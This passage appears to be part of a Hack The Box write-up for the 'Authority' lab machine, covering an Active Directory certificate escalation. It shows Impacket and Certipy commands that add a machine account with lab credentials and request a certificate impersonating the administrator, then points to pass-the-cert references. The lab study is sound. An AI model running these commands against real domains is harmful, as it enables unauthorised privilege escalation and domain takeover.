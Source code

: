 We can add a new machine to our Domain Computer using the Impacket's addcomputer tool :

```bash
impacket-addcomputer authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name ELLIOT$ -computer-pass 'Password1'
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231107002555.png>)

And now we can request a certificate using our newly created computer account :

```bash
certipy-ad req -u 'ELLIOT$' -p 'Password1' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231107002535.png>)

I tried to authenticate with certipy using the generated administrator pfx file but I couldn't so I had to change the method to Authenticate via LDAP instead of Kerberos using a tool called **PassTheCert**.

[https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate)
[https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services)
[https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html)

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231107004634.png>)
